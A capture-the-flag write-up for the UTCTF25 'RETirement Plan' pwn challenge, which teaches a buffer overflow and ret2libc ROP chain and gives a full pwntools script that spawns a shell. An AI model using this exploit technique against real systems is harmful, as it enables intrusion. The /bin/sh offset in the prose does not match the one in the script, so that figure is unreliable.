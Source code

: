 
#WriteUp for  RETirement Plan @ UTCTF25
##Category: Binary Exploitation / Pwn

Upon opening the challenge we are presented with a binary and a libc file
    
checking the binary we get
`    
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x3fe000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
`

We see the file has:    
- ==No stack canary== : so the buffer overflow is possible
- ==NX is not enabled== : so injection of code in the stack is possible        

Let's now analyze the binary file on a tool like ghidra
![Binary](decompiled.png)

What the code does is very simple:

```
    It uses puts to display an output to the user 
    Uses gets to get user input into a 48 byte buffer (exploitable via overflow)
    And for each char od the user input it transforms them in their opposite, meaning a -> z, b -> x, A -> Z ...
    if the character is lowercase does -0x25, if it is uppercase does -0x65
``` 


    From this we know that the code will never provide us a flag, so we need to execute system("/bin/sh"), for this we need to know the system call address and the /bin/sh address. 
    Due to the machine having ASLR enabled, these addresses will always be random, but their offset to the libc base address is always constant, and we have the libc file so lets find their offsets 

    Upon running the libc in gdb and doing p system we receive : 
    `$1 = {<text variable, no debug info>} 0x453a0 <system>`
    So our system offset is ==0x453a0== 

And if we do 
`strings -t x libc-2.23.so | grep /bin/sh` 
we get the /bin/sh offset ==18ce57==

    So if we get the address of a call in the program, we can use it to calculate the libc base address and then the system's and /bin/sh's, so let's choose the first call, puts()

    we see on the libc that the puts offset is :
`$1 = {<text variable, no debug info>} 0x6f6a0 <puts>`

    So essentially what we need to do is run the program, get puts address, call main() again so process doesn't finish, calculate the system() and /bin/sh addresses, call system with /bin/sh.

    So now we need to get the main() address and gadgets to overwrite the return address
    
    If we use cylic to crash the program and check it using gdb we can see
![main](main.png)

That the main address is 0x40070d - 247 = ==0x400616==

    Getting the gadgets using ROPGadget 
    
```
    ROPgadget --binary ./shellcode | grep "pop rdi"
    0x0000000000400793 : pop rdi ; ret
    0x00000000004004a9 : ret
```

    pop rdi: Pops the top value from the stack into the rdi register.
    ret: Returns to the next address on the stack.

    The first argument to a function is passed in the rdi register. For example:
    To call puts("Hello"), the address of the string "Hello" must be placed in rdi.
    To call system("/bin/sh"), the address of the string "/bin/sh" must be placed in rdi.

    The pop rdi; ret gadget allows us to control the rdi register by popping a value from the stack into it.



Polished commented script 

```
from pwn import *

# Load the binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address of a frame_dummy, to clear the registers so we dont crash,  mov eax, 0x0
add = 0x400600

# Receive initial prompt
p.recv()

# Payload to leak the address of puts
payload = b'A' * 47  # Padding (gets tries to get 48 bytes)
payload += b'F'  # Marker for reference
payload += p64(add)  # Overwrite return address
payload += 16 * b'b'  # Additional padding
payload += p64(0x400793)  # pop rdi; ret gadget pops the next value in the stack (puts GOT) into rdi, and return (plt.puts) which calls puts(puts@got) and prints the puts address
payload += p64(elf.got.puts)  # Address of puts in GOT
payload += p64(elf.plt.puts)  # Call puts to leak the address
payload += p64(0x400616)  # Return to main for second stage

p.sendline(payload)

# Parse the leaked address of puts
p.recvuntil(b'F')
output = p.recvuntil(b'\n').strip()
puts_addr = u64(output.ljust(8, b'\x00'))
 
libc_addr = puts_addr - 0x6f6a0  # Offset of puts in libc
bin_sh = libc_addr + 0x18ce67  # Offset of /bin/sh in libc
system_addr = libc_addr + 0x453a0  # Offset of system in libc

# Second payload to spawn a shell
payload2 = b'C' * 48  # Padding
payload2 += p64(add)  # Overwrite return address
payload2 += 16 * b'b'  # Additional padding
payload2 += p64(0x00000000004004a9)  # ret gadget for stack alignment
payload2 += p64(0x400793)  # pop rdi; ret gadget pops next value (bin_sh) into rdi and returns this instruction to the next address in the stack (system_addr) calling system("/bin/sh") 
payload2 += p64(bin_sh)  # Address of /bin/sh
payload2 += p64(system_addr)  # Call system

p.sendline(payload2)

# Interact with the shell
p.interactive()
```

![flag](flag.png)
